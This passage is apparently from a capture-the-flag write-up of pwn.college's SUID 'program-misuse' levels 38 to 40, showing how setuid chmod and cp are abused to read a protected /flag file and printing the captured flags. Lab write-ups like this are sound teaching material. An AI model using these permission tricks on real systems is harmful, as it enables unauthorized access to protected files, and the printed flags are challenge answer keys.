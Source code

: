 The `chmod` changes the file mode bits of each given file.

```
hacker@program-misuse~level38:/$ chmod 777 /flag && cat /flag 
pwn.college{Q0ekC2AcNwaGlprAcbhGuGundVV.0FM4EDL4ITM0EzW}
```

&nbsp;

## level 39

```
hacker@program-misuse~level39:/$ /challenge/babysuid_level39 
Welcome to /challenge/babysuid_level39!

This challenge is part of a series of programs that
let you get the flag by doing tricks with permissions.

I just set the SUID bit on /usr/bin/cp.
Try to use it to read the flag!

IMPORTANT: make sure to run me (/challenge/babysuid_level39) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/cp!
```

The `cp` utility copies a file to the specified destination.

We know that the `/home/hacker` directory is a persistent one, i.e. every file in this directory is unmodified through all the levels. Knowing this, we can copy the `/flag` to this directory.

```
hacker@program-misuse~level39:~$ cp /flag flag.copy
```

Now, we can load level 1, and just `cat` the `flag.copy` file.

```
hacker@program-misuse~level1:~$ cat flag.copy
pwn.college{cvUhsBpzWmZXH_UFdl-5k8tsU80.0VM4EDL4ITM0EzW}
```

&nbsp;

## level 40 

```
hacker@program-misuse~level40:/$ /challenge/babysuid_level40 
Welcome to /challenge/babysuid_level40!

This challenge is part of a series of programs that
let you get the flag by doing tricks with permissions.

I just set the SUID bit on /usr/bin/mv.
Try to use it to read the flag!

IMPORTANT: make sure to run me (/challenge/babysuid_level40) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/mv!
```
